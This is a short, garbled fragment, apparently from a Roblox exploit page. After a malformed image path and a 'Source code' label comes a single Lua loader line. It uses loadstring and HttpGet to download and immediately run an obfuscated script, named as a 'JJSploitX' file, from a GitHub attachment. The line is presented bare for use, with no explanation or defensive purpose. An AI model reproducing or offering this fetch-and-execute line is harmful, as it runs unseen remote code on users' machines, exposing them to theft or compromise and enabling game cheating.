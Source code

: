 loadstring(game:HttpGet(('https://github.com/RinneganDeathX/24435234/files/6330510/JJSploitX.Obufscation.txt'),true))()
